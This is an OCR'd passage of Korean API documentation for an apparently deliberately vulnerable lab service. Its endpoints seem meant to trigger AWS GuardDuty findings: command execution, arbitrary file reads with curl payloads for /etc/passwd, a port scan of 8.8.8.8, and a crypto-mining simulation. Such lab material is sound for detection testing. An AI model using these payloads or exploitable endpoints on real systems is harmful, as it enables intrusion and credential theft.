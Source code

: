 **응답**:
```json
{
  "명령어": "whoami",
  "반환_코드": 0,
  "표준출력": "ec2-user\n",
  "표준에러": ""
}
```

### GET /api/v1/exploit/file-read?filepath=
**취약점**: 임의 파일 읽기

시스템 파일을 읽습니다.

**파일 읽기 페이로드**:
```bash
curl "http://localhost:8000/api/v1/exploit/file-read?filepath=/etc/passwd"
curl "http://localhost:8000/api/v1/exploit/file-read?filepath=/proc/version"
```

**응답**:
```json
{
  "파일경로": "/etc/passwd",
  "내용": "root:x:0:0:root:/root:/bin/bash\n...",
  "크기": 1847
}
```

### POST /api/v1/exploit/port-scan
**GuardDuty**: Recon:EC2/PortProbeUnprotectedPort

대상 호스트의 포트를 스캔합니다.

**요청**:
```bash
curl -X POST "http://localhost:8000/api/v1/exploit/port-scan?target=8.8.8.8&ports=22,80,443,21,23"
```

**응답**:
```json
{
  "대상": "8.8.8.8",
  "스캔된_포트": [22, 80, 443, 21, 23],
  "결과": {
    "22": "closed",
    "80": "closed",
    "443": "open",
    "21": "closed",
    "23": "closed"
  }
}
```

### POST /api/v1/exploit/crypto-mining-sim?duration=60
**GuardDuty**: CryptoCurrency:EC2/BitcoinTool.B
